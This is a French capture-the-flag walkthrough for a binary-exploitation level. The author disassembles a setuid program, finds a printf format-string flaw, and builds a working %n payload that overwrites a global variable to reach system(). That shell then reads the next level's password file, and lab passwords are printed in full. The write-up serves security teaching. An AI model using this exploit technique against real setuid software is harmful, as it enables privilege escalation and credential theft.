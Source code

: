 # Level3

> login:password -> *`level3:492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`*
```
:~$ su level3
Password:492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
---

```
:~$ pwd
/home/user/level3
```

```
:~$ ls -la
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level3
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level3` :

```
:~$ ./level3
(input) test
test

:~$ ./level3 test
(input) test
test
```

Avec ou sans paramètre, le binaire attends un input

```
:~$ gdb level3
...

(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.

(gdb) disas v
Dump of assembler code for function v:
   (...)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   (...)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   (...)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   (...)
```

On remarque que le main du binaire appel une fonction `v()` (+6) et que cette derniere appelle plusieurs fonctions dont une fonction `printf()` (+49) vulnerable a exploit par format de chaine de caracteres.

On voit aussi la comparaison `cmp` (+59) de `64` d'une variable globale `0x804988c` (+54), puis si la comparaison passe l'execution de `fwrite()`, mais surtout de `system()`. Afin de passer la condition, il faut determiner la valeur de cette variable.

```
(gdb) info variables
All defined variables:

Non-debugging symbols:
(...)
0x0804988c  m
```

Le nom de la variable c'est `m`, on va donc faire en sorte d'utiliser la vulnerabilite de `printf()` pour en trouver sa valeur avec plusieurs `%x` qui affichera directement l'adresse.

```
:~$ echo "%x %x %x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520
```

On va lui ajouter un simple buffer `aaaa` pour voir ou en est ecrit l'adresse, pour ensuite y imprimer l'adresse de notre variable m: `\x8c\x98\x04\x08`

```
:~$ echo "aaaa %x %x %x %x %x %x" | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825

:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
```

On a reperer notre buffer en 4e position. A present, on peux utiliser a present un `%n` pour ecrire a l'adresse de notre variable pour en changer sa valeur. L'adresse de `m` est de **4 bytes**, on doit donc ajouter **60 bytes** pour arriver au **64**

```
:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
```

C'est une reussite, on atteint le fwrite qui semble nous afficher `Wait what?!` et donc on peux a present utiliser la fonction `system()`

```
:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/level3

:~$ cat /tmp/level3 - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

